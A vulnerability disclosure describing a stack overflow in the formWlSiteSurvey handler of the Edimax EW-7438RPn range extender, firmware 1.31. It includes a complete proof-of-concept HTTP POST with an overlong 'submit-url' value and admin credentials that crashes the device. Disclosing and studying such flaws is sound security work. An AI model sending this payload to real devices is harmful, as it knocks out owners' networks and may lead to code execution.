




# Edimax Vulnerability

Vendor:Edimax

Product:EW-7438RPn

Version:1.31

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in Edimax extender with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `webs` binary:

In the router's `formWlSiteSurvey` function, `selSSID、submit-url` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `selSSID、submit-url` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

<div  align="center"></div>

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `submit-url` as **aaaaa......**, and the router will crash, such as:

```http
POST /goform/formWlSiteSurvey HTTP/1.1
Host: 192.168.0.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 2555
Origin: http://192.168.0.4
Authorization: Basic YWRtaW46MTIzNA==
Connection: keep-alive
Referer: http://192.168.0.4/wlsurvey.asp
Cookie: language=16
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ssid0=TOTOLINK_A720R&chan0=6&encryption0=WPA-PSK%2FWPA2-PSK&wpa_tkip_aes_0=AES%2FTKIP&secchan0=2&ssid1=slimace&chan1=11&encryption1=WPA-PSK%2FWPA2-PSK&wpa_tkip_aes_1=AES&secchan1=1&ssid2=Cudy-2BD2&chan2=3&encryption2=WPA-PSK%2FWPA2-PSK&wpa_tkip_aes_2=AES&secchan2=2&ssid3=xu&chan3=11&encryption3=WPA2-PSK&wpa_tkip_aes_3=AES&secchan3=1&ssid4=bailu&chan4=1&encryption4=WPA2-PSK&wpa_tkip_aes_4=AES&secchan4=0&ssid5=LAPTOP-JB7ONN6E+7345&chan5=1&encryption5=WPA2-PSK&wpa_tkip_aes_5=AES&secchan5=0&ssid6=OPPO+Find+X8s%2B+C56E&chan6=11&encryption6=WPA2-PSK&wpa_tkip_aes_6=AES&secchan6=0&ssid7=DESKTOP-KFN7NEA+2741&chan7=6&encryption7=WPA2-PSK&wpa_tkip_aes_7=AES&secchan7=0&ssid8=handly&chan8=10&encryption8=WPA2-PSK&wpa_tkip_aes_8=AES&secchan8=0&ssid9=DESKTOP-TH7K1LQ+9532&chan9=11&encryption9=WPA2-PSK&wpa_tkip_aes_9=AES&secchan9=1&ssid10=DESKTOP-UERH94N+3517&chan10=1&encryption10=WPA2-PSK&wpa_tkip_aes_10=AES&secchan10=0&apCount=11&refresh=Refresh&submit-url=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
